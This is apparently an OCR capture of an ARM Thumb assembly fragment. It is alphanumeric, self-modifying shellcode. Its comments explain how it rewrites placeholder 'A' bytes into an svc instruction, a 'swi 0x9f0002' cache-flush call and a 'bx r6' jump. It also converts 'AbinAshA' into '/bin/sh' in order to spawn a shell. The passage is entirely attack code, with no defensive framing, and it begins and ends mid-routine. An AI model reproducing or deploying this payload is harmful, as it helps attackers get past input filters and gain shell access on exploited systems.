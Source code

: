 ```nasm
	subs r1, 0x4b
	adds r5, 0x4d
	adds r5, 0x47
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	adds r1, 0x70
	adds r1, 0x42
	adds r5, 0x4d
	adds r5, 0x48
	strb r1 ,[ r0 , r5 ]

	muls r5, r2           # this block write 0xdf 
	adds r1, 0x41         # which is the opcode for svc instruction
	subs r1, 0x43
	adds r5, 0x39
	adds r5, 0x41
	adds r5, 0x4d
	strb r1 ,[ r0 , r5 ]

	muls r1 , r2          # set r6 regiseter with correct location
	adds r1, 0x41
	subs r1, 0x42
	negs r6 , r1
	muls r6 , r0
	adds r6 , 0x4d
	adds r6 , 0x4a

	muls r0,r2           # r0=0
	muls r1,r2          
	adds r1 , 0x41       
	subs r1 , 0x42       # r1=-1

	bx pc 
	adds r7,0x41

.byte 0x41 0x41 0x41 0x41    # these bytes are modified to swi 0x9f0002
.byte 0x41 0x41 0x41 0x41    # bx r6

	muls r2 , r0
	mov r0 , pc
	muls r5 , r2
	muls r1 , r2

	adds r1 , 100           # AbinAshA is changed to /bin/sh
	subs r1 , 53
	adds r5 , 48           
	strb r1 ,[ r0 , r5 ]

	muls r5 , r2
	adds r5 , 52
	strb r1 , [ r0 , r5]

	muls r5 , r2
	adds r5 , 55
	strb r2 , [ r0 , r5]

	muls r1,r2
	adds r1 , 0x50
	subs r1 , 0x51
	negs r7 , r1     # r7=1
	muls r1,r2
	adds r1, 0x4c
```